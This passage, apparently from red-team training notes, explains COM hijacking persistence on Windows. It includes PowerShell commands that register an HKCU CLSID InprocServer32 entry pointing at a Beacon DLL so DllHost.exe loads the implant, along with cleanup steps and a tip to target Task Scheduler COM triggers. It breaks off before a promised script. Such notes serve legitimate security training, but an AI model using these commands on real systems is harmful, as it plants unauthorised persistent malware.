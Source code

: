 ```powershell
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```
{% endcode %}

### Exploitation

In order to exploit this, we can create the necessary Register entries in HKCU and point them at a Beacon DLL.

Because this is still on our attacking machine, we'll point this straight at `C:\Payloads\http_x64.dll`.

{% code overflow="wrap" %}
```powershell
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
PS C:\Users\Attacker> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
{% endcode %}

Once `DllHost.exe` loads this COM entry, we will get a Beacon.

<figure><img src="../.gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

### COM Hijacking Cleanup

**In order to perform cleanup of a COM hijack:**

1. Simply remove the Registry entries within HKCU &#x20;
2. Delete the DLL

### Another great place to look for hijackable COM components...

Look within the Task Scheduler.

Rather than executing binaries on disk (compared to in-memory), many of the default Windows Tasks actually use _**custom triggers**_ to call COM objects.

Since they are executed via the Task Scheduler, it is much easier to predict when they're going to be used rather than relying on luck and chance for the COM object to be utilized when required.

#### Powershell

**Using PowerShell, we can use the following script to find compatible tasks:**
